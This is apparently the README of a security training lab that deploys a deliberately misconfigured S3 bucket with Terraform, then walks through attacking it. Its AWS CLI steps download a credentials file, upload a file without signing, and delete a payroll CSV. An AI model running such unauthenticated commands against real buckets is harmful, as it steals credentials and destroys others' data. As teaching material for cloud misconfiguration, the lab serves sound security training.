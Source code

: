 # S3 Misconfiguration

## please install the below cli tools 

* AWS CLI

```bash
sudo apt-get install awscli
```
* Terraform - click on the below link for further help on on installing 

```bash
https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli
```

* Clone the repository 

```bash
git clone https://github.com/bvabhishek/s3misconfiguration.git
```
* Step 1: Change Directory

```bash
cd /s3misconfiguration
```
* Step : Initialise terraform 

```bash
terraform init
```

* Step : Run `terraform apply -auto-approve`

```bash
terraform apply -auto-approve
```

* Step 4: Export bucket name
```bash
export s3bucket=<bucketname> 
```

* Step 5: Lets try to list down the contents of bucket

```bash
aws s3 ls s3://$s3bucket
```

* Step 6: Now lets perform all the possible attacks

* Step 7: Lets first download the fishy files 

```bash
aws s3 cp s3://$s3bucket/creds.txt /home/we45-abhi/seasides/

```

* Step 8: Let's upload a new file 

```bash
aws s3 cp main.tf s3://$s3bucket --no-sign-request --region us-west-2
```

* Step 9: Let's Delete a file 


```bash
aws s3 rm s3://$s3bucket/emp_pay_dont_delete.csv --no-sign-request --region us-west-2
```


* By this we can figure out that all sensitive data has been compromised and due to misconfiguration of bucket we have a complete control of the bucket


 
